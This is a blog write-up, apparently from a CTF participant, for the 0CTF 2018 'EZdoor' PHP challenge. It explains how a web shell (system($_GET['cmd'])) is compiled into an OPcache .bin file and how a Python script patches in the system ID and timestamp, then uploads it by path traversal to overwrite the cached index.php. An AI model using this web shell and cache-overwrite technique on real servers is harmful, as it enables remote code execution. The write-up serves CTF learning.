 ```yaml
---
layout: post
title:  "0CTF 2018 EZdoor Web Challenge"
subtitle: 'Sunshine CTF 2018 web challenges writeup'
date:   2018-04-10 00:06:31
tags:
- Web Security, 0CTF 2018, PHP OPcache 
---
```


Challenge name: `EZdoor`

Link: `http://202.120.7.217:9527`

In this challenge, we are greeted with the <a href="https://github.com/gokulkrishna01/gokulkrishna01.github.io/tree/master/scripts/0CTF/source.php">source code</a>:

Breaking down the code,

{% highlight php %}

if(!file_exists($dir . "index.php")){
  touch($dir . "index.php");
}

{% endhighlight %}

does create a new `index.php` file if not created already.

This question was kind of similar to the one we had for ASIS CTF finals couple of years back. This made me realise that it was related to OPCache and since there was a <a href="http://gosecure.net/2016/04/27/binary-webshell-through-opcache-in-php-7/">writeup</a>, probably a research, on the same.

So going line by line, we were provided with 5 different functionalities - `pwd` for the `path`, `phpinfo` which provides the info page, `reset` to clear the directory, `time` to show the timestamp (this will prove to be important later) & `upload` option to upload our file.

Understanding the problem deeper, `OPCache` is the built-in caching engine with PHP 7.0.* versions. It not only compiles PHP scripts and sets the resulting bytecode in memory but also, offers caching in the filesystem when specifying a destination folder in `PHP.ini` file.

You can find the line `opcache.file_cache=/tmp/opcache` in `PHP.ini` file. Inside this folder, `OPCache` stores its compiled PHP scripts in the same folder where the PHP code is written. So essentially, a compiled version of `/var/www/index.php` will be stored in `/tmp/opcache/<system_id>/var/www/index.php.bin`.

To generate a `phpbin` file, create a `index.php` file with contents:


```
<?php
   system($_GET['cmd']);
?>
```


and then, `php -S 127.0.0.1:8080` and a simple `wget 127.0.0.1:8080` generated the `phpbin` file.

Also for this, the `php.ini` files has to be updated in the following way:


```
opcache.enable=1
opcache.validate_timestamps=1
opcache.file_cache= "/var/www/html/cache"
opcache.file_cache_only=1
```

Now to calculate the `system_id`, we have got a tool over <a href="https://github.com/GoSecure/php7-opcache-override">here</a> and with that, we can identify what we want to calculate.

To calculate the above, the parameters were `php_version = 7.0.28` , `zend_extension_id: API320151012,NTS` and `zend_bin_id: BIN_SIZEOF_CHAR48888`.

Calculation of `system_id` : `digest = hashlib.md5(php_version + zend_extension_id + zend_bin_id).hexdigest()`

Now about solving the challenge, firstly, to control the cache file, we mainly need to get hold of two parameters, `timestamp` and `opchache_ID`.


After generating the system ID, grab the `timestamp`. Set this to the OPcached web-shell (index.php.bin) to bypass opchache.validation_timestamp and upload it.

The final script was:

```
import struct
import requests

URL = "http://202.120.7.217:9527/"
sid = "7badddeddbd076fe8352e80d8ddf3e73"
UID = "c607e0c365ae4a0ea516aadaad3db7adfe45df9c" #constant
SID = "7badddeddbd076fe8352e80d8ddf3e73" #SystemID calculated

requests.get(URL+"?action=reset")
print "Reset done"


timestamp = int(requests.get(URL+"?action=time").text)
print "Time stamp: " + str(ts)


f = open("index.php.bin").read()

path = f[:8]+sid+f[40:64]+struct.pack("I", timestamp)+f[68:] #this is done to replace the SystemID and timestamp with a custom one in an already existing one

requests.post(
    URL+"?action=upload&name=../../../../../tmp/cache/"+SID+"/var/www/html/sandbox/"+UID+"/index.php.bin"
    , files=dict(file=path)
    )
```


Reach me out on <a href="https://twitter.com/gkgkrishna33/status/991205002562519041">Twitter</a> for more queries.
